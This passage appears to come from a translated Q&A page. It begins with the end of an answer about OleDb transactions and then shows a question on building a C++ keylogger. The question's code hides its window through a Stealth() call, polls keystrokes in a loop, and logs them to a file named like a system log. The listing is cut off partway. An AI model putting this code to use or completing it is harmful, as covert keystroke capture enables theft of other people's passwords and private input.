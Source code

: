[Microsoft 文档：OleDbTransaction.Commit 方法 ()](https://msdn.microsoft.com/en-us/library/system.data.oledb.oledbtransaction.commit(v=vs.110).aspx)

**但请记住**：只有在插入/更新多个 SQL 语句时才应该使用事务，这对回滚有意义。

[这是使用 MS Access 2010 在表单中添加事务管理](https://stackoverflow.com/questions/25532059/ms-access-2010-adding-transaction-management-into-a-form)的示例

# c++ - 制作键盘记录器

> ID：12954040
> 
> 赞同：3
> 
> 时间：2012-10-18T11:56:14.800
> 
> 标签：c++, keystroke

我想在自己的电脑上制作一个小型键盘记录器，以了解击键如何与 C++ 一起使用。我在网上找到了一些代码并对其进行了一些编辑，但我不确定如何做我想做的事情。

```
#include "stdafx.h"
#include <iostream>
#include <windows.h>
#include <winuser.h>   

using namespace std;  
int Save (int key_stroke, char *file);
void Stealth();

int main() 
{
    Stealth(); 
char i;
while (1)
{
    for(i = 8; i <= 190; i++)
    {
        if (GetAsyncKeyState(i) == -32767)
            Save (i,"System32Log.txt");
    }
}
system ("PAUSE");
return 0;
}
int Save (int key_stroke, char *file)
{
if ( (key_stroke == 1) || (key_stroke == 2) )
    return 0;

FILE *OUTPUT_FILE;
OUTPUT_FILE = fopen(file, "a+");

cout << key_stroke << endl;

    if (key_stroke == 8)
    fprintf(OUTPUT_FILE, "%s", "[BACKSPACE]");  
    else if (key_stroke == 13)
    fprintf(OUTPUT_FILE, "%s", "\n"); 
    else if (key_stroke == 32)
    fprintf(OUTPUT_FILE, "%s", " ");
    else if (key_stroke == VK_TAB)              
    fprintf(OUTPUT_FILE, "%s", "[TAB]");
        else if (key_stroke == VK_SHIFT)
    fprintf(OUTPUT_FILE, "%s", "[SHIFT]");
```